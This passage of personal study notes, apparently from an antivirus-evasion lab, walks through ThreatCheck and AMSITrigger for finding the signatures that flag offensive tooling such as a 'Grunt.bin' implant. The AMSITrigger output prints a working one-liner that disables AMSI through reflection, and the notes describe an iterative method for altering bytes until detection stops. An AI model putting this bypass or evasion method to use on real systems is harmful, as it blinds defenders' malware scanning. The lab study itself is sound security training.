 <u>Basic Syntax of ThreatCheck</u>:

```powershell
C:\>ThreatCheck.exe --help
```
![](/assets/img/Pasted image 20230115161514.png)

- For our uses , we only need to supply a file and optionally an engine; however, we will primarily want to use `AMSITrigger` when dealing with **AMSI**(`Anti-Malware Scan Interface`).

		- AMSI is basically a different AV engine?

```powershell
C:\>ThreatCheck.exe -f Downloads\Grunt.bin -e AMSI
```

![](/assets/img/Pasted image 20230115161650.png)

- No other configuration or syntax is required and we can get straight to modifying our tooling.
- To efficiently use this tool, we can identify any **bad bytes** that are first discovered then recursively break them and run the tool again until no signatures are identified.

**Note**: There may be instances of false positives, in which the tool will report no bad bytes. This will require your own intuition to observe and solve.


### AMSITrigger

- ASMI leverages the `runtime` , making signatures harder to identify and resolve.
- ThreatCheck also does not support certain file types such as **PowerShell** that **AMSITrigger** does.

		- Okay, so ThreatCheck for scanning file signature and AMSI for scanning malicious processes?

- AMSITrigger does provide a pre-compiled release on their GitHub and can also be found on the Desktop of the attached machine.

<u>Syntax usage of AMSITrigger</u>:

```powershell
C:\>amsitrigger.exe --help
```

![](/assets/img/Pasted image 20230115162431.png)

- For our uses, we only need to supply a file and the preferred format to report signatures:

```powershell
PS C:\> .\amsitrigger.exe -i bypass.ps1 -f 3
[Ref].Assembly.GetType('System.Management.Automation.AmsiUtils').GetField('amsiInitFailed','NonPublic,Static').SetValue($null,$true)
```

##### End of bad bytes for `shell.exe`: 

- See section just BEFORE `Automating Signature Identification`.

--------
# Static Code-Based Signatures
